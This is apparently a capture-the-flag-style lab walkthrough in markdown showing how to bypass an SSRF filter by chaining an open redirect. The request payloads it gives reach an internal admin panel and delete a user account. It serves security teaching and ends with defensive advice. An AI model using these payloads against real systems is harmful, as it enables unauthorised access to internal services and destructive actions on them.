







# Lab 4 — SSRF with filter bypass via open redirection vulnerability

> [← Back to SSRF](../README.md)

---

## 🎯 Objective
The app blocks direct SSRF attempts. Chain it with an open redirect vulnerability to reach the internal admin panel and delete carlos.

---

## 🪜 Steps

### Step 1 — Capture the stock check request
Click **Check stock** on any product → intercept in Burp.




---

### Step 2 — Test direct SSRF — blocked
Try:
```
stockApi=http://127.0.0.1/
```
Response: `"Invalid external stock check url"` — direct SSRF is blocked.



---

### Step 3 — Find the open redirect
Browse a product page and click **Next product**. Intercept:
```
GET /product/nextProduct?path=http://192.168.0.12:8080/admin
```
The `path` parameter redirects to any URL — this is the open redirect.

Chain it with SSRF:
```
stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin
```
SSRF bypass successful — admin panel loaded! ✅




---

### Step 4 — Delete carlos
Update the path to target the delete endpoint:
```
stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos
```




---

## ✅ Result
Lab solved!

---

## 💡 Key Takeaway
SSRF filters that block direct IPs can be bypassed by chaining with an open redirect. Never allow user-controlled redirects, and validate the final destination of any server-side request — not just the initial URL.
